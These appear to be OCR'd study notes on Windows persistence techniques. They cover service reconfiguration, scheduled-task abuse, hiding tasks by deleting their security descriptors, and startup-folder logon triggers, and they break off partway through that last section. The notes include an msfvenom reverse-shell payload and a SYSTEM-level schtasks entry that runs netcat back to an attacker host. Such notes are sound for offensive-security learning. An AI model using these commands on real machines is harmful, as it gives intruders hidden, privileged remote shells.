 ```
				- `sc.exe qc 'ServiceName'`
			- Take note of the:
				- BINARY_PATH_NAME
				- START_TYPE
				- SERVICE_START_NAME
			- Create a payload perhaps
				- `msfvenom -p windows/x64/shell_reverse_tcp LHOST='attack_box_ip' LPORT='attack_host_port' -f exe-service -o rev-svc.exe`
			- Reconfigure that stopped/disabled service
				- `sc.exe config 'stoppedServiceName' binPath= "C:\Windows\rev-svc.exe" start= auto obj= "LocalSystem"
			- Check it again `sc.exe qc 'serviceName'`
			- Good luck, because there should be solid monitoring to random IP addresses (that would normally alert as a result from a random connection such as one that a revshell would create)
	- Abusing Scheduled Tasks
		- Task Scheduler
			- Allows for granular control of when the task will start, allowing one to configure tasks that will activate at specific hours, repeat periodically, or even trigger when specific system events occur
		- `schtasks` in CLI to interact with the task scheduler
			- /change
			- /create
			- /delete
			- /end
			- /query
			- /run
		- MS reference:
			- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks
		- Example:
			- `schtasks /create /sc minute /mo 1 /tn example-task /tr "c:\tools\nc64 -e cmd.exe 'attack-box-ip' 'attack-box-port'" /ru SYSTEM`
		- `/sc` and `/mo` options indicate that the task should be run every minute 
		- `/ru` option indicates that the task will run with SYSTEM privileges
		- `schtasks /query /tn 'task-name'`
			- Will let you know if the task is running or not
		- Making Tasks Invisible
			- This is done by deleting the task's Security Descriptor (SD). 
			- The Security Descriptor is an ACL that states which users have access to the scheduled task
			- If the user you have isn't allowed to query a scheduled task, then you won't see it anymore
			- Windows will only allow you to see tasks that you have permission to use
			- Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including admins!
			- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`
				- This will house Security Descriptors for all scheduled tasks
				- There will be a regkey for every scheduled task
				- A value named "SD" holds the Security Descriptor
				- Only syspriv'd accounts can remove this value.
				- If remote, then you'll need to use a tool like `PsExec64.exe` to be able to make edits to the registry
					- `.\PsExec64.exe -s -i regedit`
					- This will open up a regedit window from where changes can be made
					- Note - a GUI will be needed. goooey
			- `schtasks /query /tn 'task-name'` again > should get an error.
	- Logon Triggered Persistence
		- Actions performed by a user can be bound to execute payloads
		- Startup Folder
			- Found in:
				- `C:\Users\'username'\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
			- For All Users:
```